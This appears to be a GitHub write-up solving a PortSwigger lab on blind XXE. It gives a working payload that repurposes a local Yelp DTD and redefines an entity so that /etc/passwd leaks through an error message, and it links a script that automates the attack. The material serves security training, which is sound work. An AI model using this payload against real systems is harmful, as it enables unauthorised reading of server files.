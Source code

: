 # Lab 9: Exploiting XXE to retrieve data by repurposing a local DTD
This lab has a "Check stock" feature that parses XML input but does not display the result.

To solve the lab, trigger an error message containing the contents of the /etc/passwd file.

You'll need to reference an existing DTD file on the server and redefine an entity from it.

[DTD File](https://github.com/darshannn10/PortSwiggers-Web-Sec-Academy/blob/main/XXE%20Injection/lab-09/enumerate-dtd.txt)

## Solution
> Manual Exploitation
1. Visit a product page, click "Check stock", and intercept the resulting POST request in Burp Suite.
2. Insert the following parameter entity definition in between the XML declaration and the `stockCheck` element:
```
<!DOCTYPE message [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
<!ENTITY % ISOamso '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%local_dtd;
]>
```
This will import the Yelp DTD, then redefine the ISOamso entity, triggering an error message containing the contents of the /etc/passwd file.

> Automating the process
- [Script](https://github.com/darshannn10/PortSwiggers-Web-Sec-Academy/blob/main/XXE%20Injection/lab-09/lab-09-script.py)

## Video Solution
- [Sommer's Video](https://youtu.be/WNKBoYYNvQ8)
- [Seven Seas Security's Video](https://youtu.be/mAqY3OsVuE8)

